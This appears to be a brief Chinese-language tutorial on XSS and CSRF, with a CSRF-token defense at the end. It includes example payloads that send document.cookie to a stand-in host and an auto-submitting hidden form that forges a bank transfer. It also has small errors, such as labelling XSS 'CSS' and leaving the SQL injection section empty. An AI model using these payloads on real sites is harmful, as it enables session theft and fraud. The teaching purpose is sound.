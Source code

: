 ## SQL注入

## CSS

CSS(Cross Site Script)又称XSS，全称跨站脚本攻击，属被动式且在用户客户端进行的攻击方式。

它的原理是向网站中输入（传入）恶意的HTML代码，这段代码被保存，当其他用户访问该网站时，HTML代码自动执行，从而达到攻击的目的。可能造成盗取用户Cookie、破坏页面结构、重定向到其他网站等后果。

XSS类似于SQL注入，开发者需要注意所有可输入的地方，尽量对用户的输入进行转义。

### DOM Based XSS

``` html
<html>
    <head>
       <title>XSS测试</title>
    </head>
    <body>
       页面内容：<%=request.getParameter("content")%>
    </body>
</html>
```

```
http://www.xss.com?content=<script>window.open("mydomain.com?param="+document.cookie)</script>
```

### Stored XSS

比如一个博客网站可以发布文章，但未对文章进行处理，当我发布的文章中包含恶意的HTML时，任何浏览我文章的人都会被攻击。


比如我插入脚本获取用户cookie：

``` html
<div>
<!-- 文章内容 -->
<script>
window.open("mydomain.com?param="+document.cookie)
</script>
</div>
```

## CSRF

CSRF(Cross Site Request Forgery)，即跨站请求伪造。利用用户登录受信网站后保留的Cookie进行攻击。

比如某银行网站以GET请求完成银行转账的POST请求：

```html
<form method="POST" action="http://www.bank.com/transfer">
    <input name="toid" value="" />
    <input name="meney" value="" />
</form>
```

我在我的网站中加入HTML

``` html
<form id="test" method="POST" action="http://www.bank.com/transfer">
    <input type="hidden" name="toid" value="${ myid }" />
    <input type="hidden" name="meney" value="${ 100 }" />
</form>
<script>
$(function() {
    $('#test').submit()
})
</script>
```

那么当用户登陆银行后访问我的网站，由于它有了银行网站返回的cookie，银行网站会通过他的验证，转账给我。

### 防御

在客户端页面增加伪随机数，为每个请求的用户，在Session中赋予一个随机值`_csrf`，在页面渲染的过程中，将这个`_csrf`值告诉前端，

``` html
<form method="POST" action="http://www.bank.com/transfer">
    <input name="toid" value="" />
    <input name="meney" value="" />
    <input type="hidden" name="_csrf" value="${ _csrf }" />
</form>
```

由于`_csrf`是一个随机值，攻击者不太容易构造出攻击用的HTML。

